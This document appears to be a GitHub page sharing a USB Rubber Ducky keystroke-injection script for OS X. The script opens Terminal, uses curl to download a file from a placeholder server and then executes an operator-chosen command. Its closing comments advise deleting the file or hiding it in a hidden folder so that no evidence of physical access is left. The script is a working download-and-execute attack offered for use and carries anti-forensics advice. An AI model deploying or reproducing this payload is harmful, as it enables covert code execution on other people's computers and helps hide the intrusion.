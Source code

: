 This is a simple script that downloads any kind of file and executes it.  There is a script like this for windows so I figured I would contribute and make one for OS X. Edit to your specifications. Requires duck encoder 2.6.3 to work which can be downloaded at http://goo.gl/QkTXNp 

    REM Title: OS X get and Execute
    REM Author: Jesse Wallace (c0deous)
    REM Simple script that downloads any file and runs it. 
    REM Requires duckencoder 2.6.3 which can be downloaded at http://goo.gl/QkTXNp
    REM Note: you must put in your own specific code to execute
    
    DELAY 1000
    COMMAND SPACE
    DELAY 800
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 500
    STRING curl http://SERVER/path/to/file > file
    ENTER
    DELAY 1000
    STRING INSERT COMMAND TO EXECUTE HERE
    ENTER
    REM You can chage the above line to the command used to open your program.

    REM Examples: python somescript.py , ./somescript.sh

    REM Note: This script doesn't delete the downloaded file so it may leave evidence of physical access.  Delete it as quickly as possible after this runs.
    REM Or alternatively you could hide it somewhere in a hidden folder where it won't be easily found.
